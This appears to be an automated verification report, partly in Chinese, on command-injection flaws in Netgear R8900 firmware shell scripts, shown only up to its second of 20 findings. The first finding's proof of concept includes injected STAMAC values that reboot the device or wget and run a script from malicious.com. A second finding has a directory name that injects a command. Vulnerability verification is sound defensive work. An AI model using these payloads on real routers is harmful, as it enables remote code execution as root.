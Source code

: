 # R8900-V1.0.2.40 - Verification Report (20 alerts)

---

## Untitled Finding to Verify

### Original Information
- **File/Directory Path:** `etc/hotplug.d/wps/00-wps`
- **Location:** `Case statement for RECORD_STA_MAC in the shell script`
- **Description:** Command injection vulnerability in the RECORD_STA_MAC action. The environment variable $STAMAC is used unquoted in the command '/usr/sbin/stamac set $STAMAC', allowing an attacker to execute arbitrary commands by crafting $STAMAC with shell metacharacters (e.g., STAMAC='; malicious_command ;'). Attack chain: untrusted input from STAMAC environment variable -> direct use in shell command without quoting or sanitization -> command execution with root privileges. The script runs with elevated permissions, making this highly exploitable if the caller (e.g., hostapd) sets STAMAC from external input.
- **Code Snippet:**
  ```
  RECORD_STA_MAC)
  		/usr/sbin/stamac set $STAMAC
  		;;
  ```

### Verification Conclusion
- **Description Accuracy:** `accurate`
- **Is a Real Vulnerability:** `True`
- **Risk Level:** `High`
- **Detailed Reason:** 安全警报准确描述了漏洞：在 'etc/hotplug.d/wps/00-wps' 文件的 RECORD_STA_MAC case 语句中，环境变量 $STAMAC 未加引号地用于命令 '/usr/sbin/stamac set $STAMAC'，这允许命令注入。证据显示代码片段存在且未进行输入清理或验证。脚本以 root 权限运行（常见于 hotplug 脚本），因此命令执行具有高权限。攻击者（已连接并有登录凭据）可通过操纵 WPS 过程控制 $STAMAC 值（例如，提供恶意 MAC 地址），并触发 RECORD_STA_MAC action（可能通过 hostapd 事件）。完整攻击链：攻击者控制 $STAMAC 输入 -> 直接用于 shell 命令 -> 任意命令执行。PoC：设置 STAMAC='; reboot ;' 可导致系统重启；或 STAMAC='; wget http://malicious.com/script.sh -O /tmp/script.sh ; sh /tmp/script.sh ;' 可下载并执行远程脚本。漏洞高度可利用，风险为 High。

### Verification Metrics
- **Verification Duration:** 128.09 seconds
- **Token Usage:** 154429

---

## Untitled Finding to Verify

### Original Information
- **File/Directory Path:** `etc/scripts/ntgr_sw_api/app_register.sh`
- **Location:** `event_notify 函数中的命令执行行`
- **Description:** 在 event_notify 函数中，脚本使用未引用的变量 ${app} 和 $@ 执行应用命令。如果应用目录名（来自文件系统）或事件参数（来自命令行）包含 shell 元字符（如分号、反引号），可能导致任意命令执行。完整攻击链：1. 攻击者通过其他方式（如文件上传漏洞）在 APP_FOLDER (/storage/system/apps) 中创建恶意目录，目录名包含命令注入序列（例如 'malicious; echo hacked'）。2. 攻击者调用 event_notify（例如通过命令行或 IPC），传递事件类型和参数。3. 在 event_notify 循环中，对于恶意目录，脚本执行命令 `${APP_FOLDER}/${app}/program/${app} event $@ &`，其中 ${app} 是恶意目录名，导致 shell 解析并执行注入的命令。触发条件：event_notify 被调用且存在恶意目录。可利用性分析：由于变量未引用，shell 会对目录名和参数进行分词和元字符解释，缺少输入净化和验证。
- **Code Snippet:**
  ```
  local app
  for n in $installed_apps; do
      app=${n##*/}
      [ "x$(grep $event_name ${APP_FOLDER}/${app}/data/${SYSTEM_CONFIG_NAME})" != "x" ] && \
          ${APP_FOLDER}/${app}/program/${app} event $@ &
  done
  ```
